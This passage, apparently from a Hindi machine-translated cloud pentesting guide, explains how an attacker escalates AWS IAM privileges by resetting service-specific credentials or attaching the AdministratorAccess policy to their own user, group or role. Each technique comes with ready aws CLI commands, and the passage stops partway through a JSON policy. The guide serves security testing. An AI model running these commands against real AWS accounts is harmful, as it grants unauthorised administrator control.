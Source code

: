 ### `iam:ResetServiceSpecificCredential`

**`iam:CreateServiceSpecificCredential`** की तरह ही है, लेकिन नए प्रमाणीकरण बनाने की बजाय एक को रीसेट करने के लिए।&#x20;

{% code overflow="wrap" %}
```bash
aws iam reset-service-specific-credential --service-specific-credential-id ACCAEXAMPLE123EXAMPLE
```
{% endcode %}

**संभावित प्रभाव:** उपयोगकर्ता सेवा अनुमतियों में सीधी उन्नति।

### `iam:AttachUserPolicy`

**`iam:AttachUserPolicy`** अनुमति वाले एक हमलावर उपयोगकर्ता द्वारा अधिकारों को बढ़ाने के लिए अधिकारों को जोड़कर अधिकारों को बढ़ा सकता है, जिसे वह उपयोगकर्ता तक पहुंच होती है।

इस विधि को शोषण करने के लिए एक उदाहरण कमांड इस तरह से दिख सकता है:
```bash
aws iam attach-user-policy --user-name <my_username> \
--policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"
```
**संभावित प्रभाव:** किसी भी चीज़ को सीधे उच्चतम स्थान पर ले जाना।

### `iam:AttachGroupPolicy`

**`iam:AttachGroupPolicy`** अनुमति वाले एक हमलावर अपने आप को उच्चतम स्थान पर उठा सकता है जो उस समूह के हिस्से में है, जिसे वह अपना रखता है, और उस नीति को जोड़कर जो नीति की अनुमतियों को हमलावर को जोड़ती है, अपने आप को जोड़ सकता है।
```bash
aws iam attach-group-policy --group-name group_i_am_in \
--policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"
```
जहां समूह वह समूह है जिसमें वर्तमान उपयोगकर्ता शामिल है।

**पोटेंशियल प्रभाव:** किसी भी चीज़ को सीधे उन्नत करें (यदि उपयोगकर्ता एक समूह के भीतर है)।

### `iam:AttachRolePolicy`, (`sts:AssumeRole`|`iam:createrole`)

**`iam:AttachRolePolicy`** अनुमति वाले एक हमलावर अपने पहुंच के साथ एक भूमिका को एक नीति संलग्न करके वरीयता को बढ़ा सकता है, जो उनके पास पहुंच है, और उस नीति की अनुमतियों को हमलावर को जोड़ सकता है।
```bash
aws iam attach-role-policy --role-name <role_i_can_assume> \
--policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"
```
जहां रोल एक रोल है जिसे वर्तमान उपयोगकर्ता `sts:AssumeRole` के साथ अस्थायी रूप से अवलंबित कर सकता है।

**पोटेंशियल प्रभाव:** किसी भी चीज़ के लिए सीधी उन्नति।

### `iam:PutUserPolicy`

`iam:PutUserPolicy` अनुमति वाले एक हमलावर एक उपयोगकर्ता के लिए एक इनलाइन नीति बनाकर या अद्यतन करके **विशेषाधिकारों को उन्नत कर सकता है**, जिसे वे पहुंच रखते हैं, और उस नीति की अनुमतियों को हमलावर को जोड़ सकता है।
```bash
aws iam put-user-policy --user-name <my_username> --policy-name "my_inline_policy" \
--policy-document "file:///path/to/administrator/policy.json"
```
आप एक नीति का उपयोग कर सकते हैं जैसे:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": [
```
